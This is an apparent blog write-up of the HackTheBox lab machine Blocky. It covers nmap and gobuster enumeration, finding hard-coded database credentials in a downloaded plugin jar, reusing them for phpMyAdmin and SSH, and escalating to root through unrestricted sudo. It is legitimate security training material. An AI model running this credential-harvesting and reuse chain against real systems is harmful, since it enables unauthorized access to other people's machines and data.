 ```yaml
---
layout: post
title: HackTheBox - Blocky
---
```


Blocky is one of the easiest machine on the HackTheBox, based on misconfiguration and Hard-coded credentials in java class.
![Blocky](https://github.com/user-attachments/assets/0fe78f1f-3513-46ab-b990-c1329189c5d1)



## Reconnaissance and Enumeration
---
Let's start with typical nmap scan to check open ports.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nmap -sC -sV -T5 blocky.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 03:38 CET
Nmap scan report for blocky.htb (10.10.10.37)
Host is up (0.038s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.42 seconds
```
As we can see ports 21, 22 and 80 are open with WordPress page.

![1](https://github.com/user-attachments/assets/5b0c6159-dd7e-42ad-94e7-1f5730dec9b8)

I used Gobuster to find directories on the server.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://blocky.htb    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
```



Let's check the Gobuster results. We can see `/phpMyAdmin`, which will definitely be useful in the later stages.
Among the interesting findings is the `/plugins` directory, which contains two files: BlockyCore.jar and griefprevention-1.11.2-3.1.1.298.jar. Let's download them and see what's inside.

![Zrzut ekranu 2025-02-24 o 03 56 52](https://github.com/user-attachments/assets/a745b638-1580-413d-bb3f-4d777b15f79d)
![Zrzut ekranu 2025-02-24 o 03 58 12](https://github.com/user-attachments/assets/337dd70a-d10b-40af-b5b5-813ed1681172)

From what we can see, it's a Java class file. We can open it using an online or code editor. I opened it in IntelliJ to check what this class contains.

<img width="860" alt="Zrzut ekranu 2025-02-24 o 03 58 42" src="https://github.com/user-attachments/assets/c1e6f394-d2d8-4679-ab6e-4090e732f184" />


The class contains hard-coded credentials for database access. We previously discovered the `/phpmyadmin` directory, so let's check if these login credentials work there.

![Zrzut ekranu 2025-02-24 o 03 59 45](https://github.com/user-attachments/assets/3b673e9b-ca50-4b95-9244-24a1911c48c9)

Bingo, login and password worked, and now we have full access to the entire database, including user information and other stored data.

![Zrzut ekranu 2025-02-24 o 04 01 05](https://github.com/user-attachments/assets/74f02629-bdd8-4fc5-ac57-2a914f071c52)

I found the `wp-users` table, which contains a user named Notch. Maybe we can try logging into SSH with that username and hard-coded password.

### Exploitation
---
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
```
otch@Blocky:~$ ll
total 40
drwxr-xr-x 5 notch notch 4096 Jul  8  2022 ./
drwxr-xr-x 3 root  root  4096 Jul  2  2017 ../
-rw------- 1 notch notch    1 Dec 24  2017 .bash_history
-rw-r--r-- 1 notch notch  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 notch notch 3771 Jul  2  2017 .bashrc
drwx------ 2 notch notch 4096 Jul  2  2017 .cache/
drwxrwxr-x 7 notch notch 4096 Jul  2  2017 minecraft/
drwxrwxr-x 2 notch notch 4096 Jul  2  2017 .nano/
-rw-r--r-- 1 notch notch  655 Jul  2  2017 .profile
-r-------- 1 notch notch   33 Feb 23 20:35 user.txt
notch@Blocky:~$ wc user.txt 
 1  1 33 user.txt
```
Perfect hit! We are logged as Notch user, so we can check user flag.

### Privilege Escalation
---
As always, I checked `sudo -l` command, this command is used to display a list of commands which user can execute with root privilages, in this case we can use every command.
```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
Since we can execute all commands, we can simply switch to the root user and retrieve the root flag.
```
notch@Blocky:~$ sudo su - root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# cd /root/
root@Blocky:~# ll
total 28
drwx------  3 root root 4096 Feb 23 20:35 ./
drwxr-xr-x 23 root root 4096 Jun  2  2022 ../
-rw-------  1 root root    1 Dec 24  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jun  7  2022 .cache/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Feb 23 20:35 root.txt
root@Blocky:~# wc root.txt 
 1  1 33 root.txt
```






